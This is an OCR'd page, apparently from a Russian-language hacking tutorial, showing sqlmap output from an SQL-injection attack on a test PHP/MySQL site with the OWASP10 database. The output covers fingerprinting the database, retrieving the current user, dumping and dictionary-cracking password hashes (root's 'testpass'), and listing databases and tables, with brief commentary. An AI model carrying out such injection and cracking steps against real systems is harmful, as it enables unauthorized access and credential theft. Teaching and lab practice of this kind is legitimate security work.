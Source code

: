 [02:08:27] [INFO] fetching banner
[02:08:27] [INFO] actively fi ngerprinting MySQL
[02:08:27] [INFO] executing MySQL comment injection fi ngerprint

Error-based SQL injection web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: active fi ngerprint: MySQL >= 5.1.12 and < 5.5.0
comment injection fi ngerprint: MySQL 5.1.41
banner parsing fi ngerprint: MySQL 5.1.41
banner: '5.1.41-3~bpo50+1'

После — имя текущего пользователя:

[02:08:28] [INFO] fetching current user
current user: 'root@localhost'

Далее получаем хеши всех пользовательских паролей и выполняем брутфорс-атаку по словарю:

[02:08:28] [INFO] fetching database users password hashes
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y
[02:08:30] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[02:08:32] [INFO] using default dictionary
[02:08:32] [INFO] loading dictionary from '/opt/sqlmap/txt/wordlist.txt'
do you want to use common password suffi xes? (slow!) [y/N] N
[02:08:33] [INFO] starting dictionary-based cracking (mysql_passwd)
[02:08:35] [INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:
[] debian-sys-maint [1]:
password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[] root [1]:
password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
clear-text password: testpass

Опа! Для root’а мы быстро подобрали пароль (для примера он был очень простой). Пришло время сдампить интересующие нас данные:

[02:08:35] [INFO] fetching database names
[02:08:35] [INFO] fetching tables for databases: information_schema, mysql, owasp10, testdb
[02:08:35] [INFO] skipping system databases: information_schema, mysql

Database: owasp10
[3 tables]
+--------------+
| accounts     |
| blogs_table  |
| hitlog       |
+--------------+
Database: testdb
[1 table]
+-------------+
| users       |
+-------------+
[02:08:35] [INFO] Fetched data logged to text fi les under '/opt/sqlmap/output/www.site.com'
